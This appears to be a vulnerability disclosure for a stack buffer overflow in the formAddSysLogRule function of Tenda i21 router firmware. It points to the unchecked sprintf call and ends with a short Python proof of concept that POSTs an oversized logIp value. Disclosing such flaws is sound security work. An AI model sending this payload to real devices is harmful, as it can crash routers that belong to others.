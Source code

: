 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formAddSysLogRule` function. The `logIp, logPort, en` variable receives the `logIp, logPort, sysRuleEn` parameter from a POST request. However, since the user can control the input of `logIp, logPort, sysRuleEn`, the statement `sprintf(mib_value, "%s;%s;%s", logip, logport, en);` can cause a buffer overflow. The user-provided  `logip, logport, sysRuleEn` can exceed the capacity of the `mib_value` array, triggering this security vulnerability.

![image-20240419203138230](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419203138230.png)

## POC

```python
payload = b"a"*2000

data = {"op": "add", "logIp": payload}
response = requests.post(url, data=data)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
